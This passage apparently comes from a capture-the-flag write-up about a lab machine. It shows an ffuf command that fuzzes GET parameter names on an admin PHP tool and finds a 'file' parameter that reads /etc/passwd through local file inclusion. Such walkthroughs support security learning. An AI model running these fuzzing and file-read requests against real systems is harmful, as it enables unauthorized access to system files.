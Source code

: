 Not finding results with POST parameter fuzzing, we proceeded to perform GET parameter fuzzing.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

![ffuf-get](../../assets/images/zerotrace/ffuf-get.png)

We found the `file` parameter. By accessing the URL `/.admin/tool.php?file=/etc/passwd`, we can see the contents of the `/etc/passwd` file, which contains the list of system users.
